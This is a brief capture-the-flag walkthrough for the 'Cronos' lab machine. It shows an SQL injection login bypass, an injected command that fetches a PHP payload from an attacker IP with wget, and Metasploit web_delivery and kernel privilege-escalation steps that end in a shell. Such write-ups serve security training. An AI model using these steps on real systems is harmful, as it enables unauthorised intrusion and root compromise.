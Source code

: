 # Cronos
## Sqlite - Commands - Web_delivery - bpf_sign_extensi0n_priv_esc
> First we have to bruteforce the subdomain, and that way we will find admin.cronos.htb

After this we will be able to do a little SQL injection magic

```
' or 1=1#
```

This will give the admin access to the site where we can inject os code

```
;wget 10.10.14.20:9000/payload.php

msfconsole
use exploit/multi/script/web_delivery
sessions -u 1

use exploit/linux/local/bpf_sign_extension_priv_esc
set SESSION 2
run
```

*Congratulations, you have a shell!*
